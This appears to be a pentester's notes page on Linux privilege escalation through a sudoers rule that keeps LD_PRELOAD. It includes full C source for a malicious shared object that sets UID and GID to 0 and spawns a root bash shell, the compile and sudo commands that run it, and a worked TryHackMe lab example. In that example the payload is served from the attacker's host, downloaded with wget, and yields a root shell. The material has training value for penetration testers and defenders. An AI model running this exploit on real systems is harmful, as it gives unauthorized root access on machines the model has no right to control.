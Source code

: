 `LD_PRELOAD` is an environment variable, which is used to load the specified shared object (`.so` file) before loading any others.
Sometimes it can be specified in the `/etc/sudoers` file, which can be listed using `sudo -l`.

#### Checking for vulnerability
###### Note: If the `sudo -l` output is available, LinPEAS will flag the `LD_PRELOAD` if vulnerable. Usually, you need to enter the `sudo -l` with a password to see. If this isn't done, LinPEAS won't flag it.
First, run `sudo -l`, and check the output. If it contains `LD_PRELOAD`, it should be vulnerable.
#### Exploitation
Because the `LD_PRELOAD` environment variable loads any shared object specified, any code in the `_init()` function of the file will be executed with the sudo permissions.
Code (filename: `exploit.c`):
```
#include <stdio.h>  
#include <stdlib.h>  
#include <sys/types.h>
void _init() {
	unsetenv("LD_PRELOAD");  
	setuid(0);   // If the user specified to run is different from Sudo, use the UID of that user.
	setgid(0);   // If the group specified to run is different from Sudo, use the GID of that user.
	system("/bin/bash -p");
	}
```
Compiling:
```
gcc -fPIC -static -shared -nostartfiles -o exploit.so exploit.c
```

This can all be done locally, as long as the architecture and operating system of the target machine and the local machine are the same.

Finally, run the exploit:
```
sudo LD_PRELOAD=./exploit.so COMMAND 
```
Note: make sure to specify the path to the `exploit.so` if it is not in the same directory as the command is being run from.

### Example
First, to check for vulnerability:
```
rick@Hijack:/tmp/test$ sudo -l
Matching Defaults entries for rick on Hijack:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User rick may run the following commands on Hijack:
    (root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```
In the third line, the `env_keep+=LD_PRELOAD` exists, so it's vulnerable.
Then, to compile the code from [[#Exploitation]]:
```
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
└──╼ #nvim exploit.c
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
└──╼ #gcc -fPIC -static -shared -nostartfiles -o exploit.so exploit.c
exploit.c: In function ‘_init’:
exploit.c:6:3: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    6 |   setuid(0); // If the user specified to run is different from Sudo, use the UID
      |   ^~~~~~
exploit.c:8:3: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    8 |   setgid(0); // If the group specified to run is different from Sudo, use the
      |   ^~~~~~
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
└──╼ #ls exploit.so
exploit.so
```
Getting the binary from the local machine to the target:
```
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
└──╼ #python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

rick@Hijack:/tmp/test$ wget http://10.8.1.167:8000/exploit.so
--2023-10-27 11:07:26--  http://10.8.1.167:8000/exploit.so
Connecting to 10.8.1.167:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18160 (18K) [application/octet-stream]
Saving to: ‘exploit.so’
exploit.so                                                  100%[=========================================================================================================================================>]  17.73K  --.-KB/s    in 0.03s   
2023-10-27 11:07:26 (687 KB/s) - ‘exploit.so’ saved [18160/18160]
```
Finally, to exploit:
```
rick@Hijack:/tmp/test$ sudo LD_PRELOAD=/tmp/test/exploit.so /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
$ id
uid=0(root) gid=0(root) groups=0(root)
```
